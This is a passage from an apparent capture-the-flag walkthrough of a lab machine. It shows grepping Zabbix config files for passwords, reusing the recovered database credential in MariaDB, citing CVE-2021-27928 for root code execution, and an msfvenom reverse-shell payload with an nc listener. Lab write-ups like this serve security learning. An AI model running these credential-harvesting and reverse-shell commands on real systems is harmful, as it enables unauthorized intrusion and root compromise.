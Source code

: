 ```console
ipmi-svc@shibboleth:/$ grep -iR 'password' /etc/zabbix/ 2>/dev/null
```
![image](https://user-images.githubusercontent.com/59029171/161683794-d727abb8-fc5a-4f23-86ab-be025cbbfda0.png)

Further reading the file, we can find the username and the password to access Zabbix's database server.

| Useraname | DBUser | DBPassword |
|:---       | :---     | :--      |
| zabbix | zabbix | bloooarskybluh |

I also ran linpeas on another shell to check if it returned anything interesting. It displayed MySQL is running on the machine on port 3306.

![image](https://user-images.githubusercontent.com/59029171/161684262-238df92d-e8f2-4f3d-ba0a-67db3c2a24b5.png)

# <span style="color:lightblue">Shell as Root</span>

We can log in to the MYSQL databases server with the above credential.  

```console
ipmi-svc@shibboleth:/$ mysql -u zabbix -p -D zabbix
password : bloooarskybluh

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 17592
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [zabbix]> 
```

On reading the server version, it's currently running on MariaDB 10.3.25, an older version of MariaDB. Doing a quick google search, I found out it was vulnerable to remote code execution, which would give us privileged access as root user using [CVE-2021-27928](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html).

Using the CVE we can craft our payload and get root access.

## <span style="color:lightgreen">Local Machine</span>

Create the reverse shell payload and start the listener.
```console
0xStarlight@kali$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=9999 -f elf-so -o shell.so
0xStarlight@kali$ sudo rlwrap nc -lnvp 9999
```
